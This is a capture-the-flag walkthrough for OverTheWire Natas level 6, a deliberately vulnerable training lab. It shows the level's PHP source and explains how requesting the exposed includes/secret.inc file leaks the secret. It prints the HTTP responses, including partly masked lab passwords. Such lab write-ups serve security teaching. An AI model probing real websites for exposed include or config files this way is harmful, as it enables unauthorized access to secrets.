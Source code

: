 # level 6

**Host**: http://natas6.natas.labs.overthewire.org
>natas6:0RoJwHdSKWFTYR5WuiAewa**********

When you visit the site, you get a prompt saying "Input secret":

```
Input secret: 
```

### Solution:

When you click on the `View source` button on the page you get following php code:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

The interesting part is the `include "includes/secret.inc";` so we send a request to `http://natas6.natas.labs.overthewire.org/includes/secret.inc` and get the response with the secret back:

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 16:56:29 GMT
Server: Apache/2.4.58 (Ubuntu)
Last-Modified: Fri, 15 Aug 2025 13:06:37 GMT
ETag: "27-63c670f646ac3"
Accept-Ranges: bytes
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

When you submit the secret you get the password for natas7 in the response:

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 16:59:33 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1065
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas6</h1>
<div id="content">

Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNE**********
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```